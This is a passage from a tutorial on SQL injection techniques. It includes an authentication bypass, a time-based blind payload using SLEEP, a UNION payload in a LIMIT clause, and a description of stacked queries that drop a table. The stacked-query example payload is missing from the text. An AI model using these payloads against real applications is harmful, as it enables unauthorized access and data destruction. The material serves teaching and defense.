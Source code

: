 Generated SQL query:

```sql
SELECT * FROM users WHERE username = 'admin' AND '1'='1';

```

Effect: The query executes successfully and the user logs in as "admin".

---

### 4. **Time-Based Blind SQL Injection**

Time-based SQL injection doesn’t produce visible results but affects the time taken to respond. The attacker executes queries that cause delays to infer whether the query was successful.

**Example:**
Original query:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';

```

Payload:

```
admin' OR IF(1=1, SLEEP(5), 0)--

```

Generated SQL query:

```sql
SELECT * FROM users WHERE username = 'admin' OR IF(1=1, SLEEP(5), 0);

```

Effect: The page will take at least 5 seconds to load if the SQL query was executed, confirming a successful SQL injection.

---

### Advanced SQL Injection Techniques:

1. **Second Order SQL Injection**:
    - This occurs when user input is stored and then used in a future query. For instance, if the input is sanitized during the initial submission but later used in a vulnerable SQL query.
2. **SQL Injection in LIMIT/OFFSET**:
    - SQL injections can sometimes be exploited within `LIMIT` and `OFFSET` clauses.
    - Example payload:
        
        ```sql
        0 UNION ALL SELECT 1,2,3--
        
        ```
        
3. **Stacked Queries**:
    - Some databases (like PostgreSQL and Microsoft SQL Server) allow stacking queries (i.e., running multiple queries in one go).
    - Example payload:
    In this case, the first query runs normally, and the second query (`DROP TABLE`) deletes the `users` table.
        